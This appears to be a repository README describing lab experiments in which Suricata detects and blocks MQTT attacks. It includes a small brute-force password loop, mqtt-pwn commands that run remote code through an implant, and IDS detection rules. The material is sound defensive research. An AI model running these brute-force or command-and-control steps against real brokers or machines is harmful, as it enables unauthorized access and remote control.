# Supported Attack & Defense categories

This section provides a comprehensive guide on the essential steps required to replicate the conducted experiments successfully. Additionally, it presents the detailed results obtained from these experiments.


- [Sensible topic subscribing and publishing](#sensible-topic-subscribing-and-publishing)
- [Information Grabber](#information-grabber)
- [Credentials Brute Force](#credentials-brute-force)
- [Command & Control](#command--control)   

## Sensible topic subscribing and publishing

- Start backend (mosquitto & suricatta):

```sh
cd backend/mosquitto-suricata
docker-compose up
```

- On malicious device: ESP32 or a Desktop machine (linux, macOS, or windows), publish a message to the following topic: `sensible`

```sh
mosquitto_pub  -t 'sensible' -m "Testing sensible"  -u client1 -P Tijolo200!
```

- Checking the alert on suricata stdout

```sh
docker exec -it suricata /bin/bash

tail -f /var/log/suricata/fast.log
```

You'll see a similar message:

```sh
07/02/2023-14:10:32.701451  [**] [1:10:3] Sensible topic alert [**] [Classification: Sensible Topic Publishing Activity was Detected] [Priority: 1] {TCP} 172.21.0.1:40818 -> 172.21.0.2:1883
```

You can now change the rule to `DROP` mode. To do this, follow these steps:

Open the `backend/mosquitto-suricata/rules/sensible-topic.rules` file.

Change the rule:

```sh
alert tcp $HOME_NET any -> any 1883 (msg:"Sensible topic alert"; mqtt.publish.topic; content:"sensible"; classtype:sensible-topic; sid:10; rev:3;)
``` 

to

```sh
drop tcp $HOME_NET any -> any 1883 (msg:"Sensible topic DROP"; mqtt.publish.topic; content:"sensible"; classtype:sensible-topic; sid:10; rev:3;)
```  

Next, re-rerun the `docker-compose up` command and redo the experiment.

### Experiment results

As we can see, the suricatta was able to detect publishing message to the `sensible` topic.







## Information Grabber

- Start backend (mosquitto & suricatta):

```sh
cd backend/mosquitto-suricata
docker-compose up
```

- On malicious device: ESP32 or a Desktop machine (linux, macOS, or windows), subscribe to any internal broker topic, for instance:

```sh
mosquitto_sub  -t '$SYS/broker/version'  -u client1 -P Tijolo200! -v
```

- Checking the alert on suricata stdout

```sh
docker exec -it suricata /bin/bash

tail -f /var/log/suricata/fast.log
```

You'll see a similar message:

```sh
07/02/2023-16:02:10.409761  [**] [1:20:1] Information Grabber alert - Grab version [**] [Classification: Someone has tried to get internal information from broker] [Priority: 1] {TCP} 172.21.0.1:56882 -> 172.21.0.2:1883
```

You can now change the rule to `DROP` mode. To do this, follow these steps:

Open the `backend/mosquitto-suricata/rules/information-grabber.rules` file.

Change the rule:

```sh
alert tcp $HOME_NET any -> any 1883 (msg:"Information Grabber alert - Grab version"; mqtt.subscribe.topic; content:"SYS/broker/version"; endswith; classtype:information-grabber; sid:20; rev:1;)
``` 

to

```sh
drop tcp $HOME_NET any -> any 1883 (msg:"Information Grabber DROP - Grab version"; mqtt.subscribe.topic; content:"SYS/broker/version"; endswith; classtype:information-grabber; sid:20; rev:1;)
```  

Next, re-rerun the `docker-compose up` command and redo the experiment.

### Experiment results

As we can see, suricatta was able to detect subscribing to internal topic.











## Credentials Brute Force

- Start backend (mosquitto & suricatta):

```sh
cd backend/mosquitto-suricata
docker-compose up
```

- On malicious device: ESP32 or a Desktop machine (linux, macOS, or windows), try to publish or subscribe to a topic using brute force:

Note: Add more passwords in the password_list to get better results!
```sh
password_list=("root" "admin" "strong", "abc123", "asdf123", "senha") 

for pass in "${password_list[@]}"
do
    mosquitto_pub -t 'testing' -m "testing" -u client1 -P "$pass"
done

```

- Checking the alert on suricata stdout

```sh
docker exec -it suricata /bin/bash

tail -f /var/log/suricata/fast.log
```

You'll see a similar message:

```sh
[root@650932c1852e /]# tail -f /var/log/suricata/fast.log
07/02/2023-17:55:59.531351  [**] [1:31:4] AUTH MQTT Credentials Brute Force by password - Alert [**] [Classification: Someone has tried to authenticate using brute force] [Priority: 1] {TCP} 172.21.0.1:54060 -> 172.21.0.2:1883
```

You can now change the rule to `DROP` mode. To do this, follow these steps:

Open the `backend/mosquitto-suricata/rules/bruteforce.rules` file.

Change the rule:

```sh
alert tcp $HOME_NET any -> any 1883 (msg:"AUTH MQTT Credentials Brute Force by username - Alert"; mqtt.connect.username; pcre:"/^.*/"; flow:to_server; threshold: type both, track by_dst, count 500, seconds 60; classtype:brute-force; sid:30; rev:3;)

alert tcp $HOME_NET any -> any 1883 (msg:"AUTH MQTT Credentials Brute Force by password - Alert"; mqtt.connect.password; pcre:"/^.*/"; flow:to_server; threshold: type both, track by_dst, count 5, seconds 60; classtype:brute-force; sid:31; rev:4;)

``` 

to

```sh
drop tcp $HOME_NET any -> any 1883 (msg:"AUTH MQTT Credentials Brute Force by username - DROP"; mqtt.connect.username; pcre:"/^.*/"; flow:to_server; threshold: type both, track by_dst, count 500, seconds 60; classtype:brute-force; sid:30; rev:3;)

drop tcp $HOME_NET any -> any 1883 (msg:"AUTH MQTT Credentials Brute Force by password - DROP"; mqtt.connect.password; pcre:"/^.*/"; flow:to_server; threshold: type both, track by_dst, count 5, seconds 60; classtype:brute-force; sid:31; rev:4;)

```  

Next, re-rerun the `docker-compose up` command and redo the experiment.

### Experiment results

As we can see, suricatta was able to detect subscribing to internal topic.










## Command & Control   

- Start backend (mosquitto & suricatta):

```sh
cd backend/mosquitto-suricata
docker-compose up
```

### Starting the attacker machine (mtqq-pwn prompt)

Go to the `tools/mqtt-pwn` folder and run the following commands:

```sh
docker-compose up --build --detach
docker-compose run cli
```

- On `mqtt-pwn prompt`, do the following:

```sh
connect -o 172.21.0.2 -u admin -w admin1  //connects to the broker
```

### Infecting victim

- On the a Desktop machine (linux, macOS, or windows), do the following:

Go to the directory: `experiments/c2/malware`

- Create a python environment and activate it:

```sh
virtualenv -p python3.8 venv
source ./venv/bin/activate
```

Then, install the required python packages:

```sh
pip install -r requirements.txt
```

Next, *infect* your machine by executing:

```sh
python3 mqtt-implant.py
```

At this point, the infected machine will communicate with the attacker machine via mqtt broker. The attacker machine will get the notication that there's new victim.




- Checking the alert on suricata stdout

```sh
docker exec -it suricata /bin/bash

tail -f /var/log/suricata/fast.log
```

### Send commands to victim  

On mqtt-pwn prompt (attacker machine):

- Select the victim number 1:

```sh
victim -i 1
``` 

- Execute remote code on victim machine:

```sh
exec date
exec uname -a
``` 

- To check the command outputs, run:

```sh
commands
``` 

You'll see a similar message:

```sh
+----+---------+------------------------------+----------------------------+
| ID | Command | Output                       |            Time            |
+----+---------+------------------------------+----------------------------+
| 1  | date    | Sun Jul  2 16:00:09 -03 2023 | 2023-07-02 19:00:09.368829 |
+----+---------+------------------------------+----------------------------+
```  

### Checking alerts

- Checking the alert on suricata stdout

```sh
docker exec -it suricata /bin/bash

tail -f /var/log/suricata/fast.log
```

```sh
07/02/2023-19:00:29.443012  [**] [1:101:1] Command & Control Alerting - send command to victim [**] [Classification: (null)] [Priority: 3] {TCP} 172.21.10.3:38497 -> 172.21.0.2:1883
```

You can now change the rule to `DROP` mode. To do this, follow these steps:

Open the `backend/mosquitto-suricata/rules/c2.rules` file.

Change the rule:

```sh
alert tcp $HOME_NET any <> any 1883 (msg:"Command & Control Alerting - send command to victim"; mqtt.publish.topic; content:"malware/input/"; startswith; classtype:c2; sid:101; rev:1;)
``` 

to

```sh
drop tcp $HOME_NET any <> any 1883 (msg:"Command & Control DROP - send command to victim"; mqtt.publish.topic; content:"malware/input/"; startswith; classtype:c2; sid:101; rev:1;)
```  

Next, re-rerun the `docker-compose up` command and redo the experiment.

You'll see the commands executed by attacker won't receive response:

```sh
172.21.0.2:1883 [Victim #1] >> exec date
[!] Executed command (id #1), look at the output table for results.
172.21.0.2:1883 [Victim #1] >> commands
+----+---------+--------+----------------------------+
| ID | Command | Output |            Time            |
+----+---------+--------+----------------------------+
| 1  | date    |        | 2023-07-02 20:06:14.242924 |
+----+---------+--------+----------------------------+
172.21.0.2:1883 [Victim #1] >> exec uname -a
[!] Executed command (id #2), look at the output table for results.
172.21.0.2:1883 [Victim #1] >> commands
+----+----------+--------+----------------------------+
| ID | Command  | Output |            Time            |
+----+----------+--------+----------------------------+
| 1  | date     |        | 2023-07-02 20:06:14.242924 |
| 2  | uname -a |        | 2023-07-02 20:06:31.071996 |
+----+----------+--------+----------------------------+
172.21.0.2:1883 [Victim #1] >>
```

### Experiment results

As we can see, suricata was able to prevent the c2 attacking:.








")


